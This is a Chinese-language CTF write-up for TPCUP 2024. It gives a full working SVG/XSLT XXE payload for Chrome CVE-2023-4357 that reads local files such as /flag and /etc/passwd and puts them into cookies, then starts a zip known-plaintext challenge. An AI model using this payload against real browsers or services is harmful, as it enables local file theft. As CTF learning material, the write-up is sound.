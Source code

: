 # TPCUP 2024

## X…什么？

看到 chrome-114.0.5735.90 搜索下这个版本可以找到 CVE-2023-4357 漏洞复现，使用 [xcanwin/CVE-2023-4357-Chrome-XXE](https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE) 的单文件 EXP，改成读取 flag，然后加上写入 cookies 的代码。

由于同时要有 svg 和 xml 解析，所以 Content-Type 设为 `image/svg+xml`，可以自己搭建本地环境看看

```xml
<!-- d.svg -->
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<!DOCTYPE div [
<!ENTITY passwd_p "file:///flag">
<!ENTITY passwd_c SYSTEM "file:///flag">
]>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:template match="/">
    <xsl:copy-of select="document('')"/>
    <body xmlns="http://www.w3.org/1999/xhtml">
      <div style="display:none">
        <p class="&passwd_p;">&passwd_c;</p>
      </div>
      <div style="width:40rem" id="r"/>
      <script>
        document.querySelectorAll('p').forEach(p =&gt; {
          document.cookie=p.innerHTML;
        });
      </script>
    </body>
  </xsl:template>
</xsl:stylesheet>
```

上传后访问 `/d.svg` 即可

`flag{XXE_is_alSo_y0ur_g0oD_fR13Nd}`

> 没修前已经能读 `/etc/passwd` 了，但读 `/flag` 没结果。以为是没权限需要提权，结果是没放 flag（
> 话说为什么读得了 `/usr/src/app/requirements.txt` 但读不了 `xssbot.py` 呢

## Uncrackable

### 更新附件后

zip 已知明文攻击，用 `zipinfo` 查看下压缩包

```bash
❯ zipinfo prob05.zip
Archive:  prob05.zip
Zip file size: 3545476 bytes, number of entries: 2
-rw----     0.0 fat   109332 T- defN 24-Feb-13 18:53 anticheat.js
-rw----     0.0 fat  3550103 B- defN 24-Feb-13 18:53 uncrackable.m4a
2 files, 3659435 bytes uncompressed, 3545224 bytes compressed:  3.1%
```
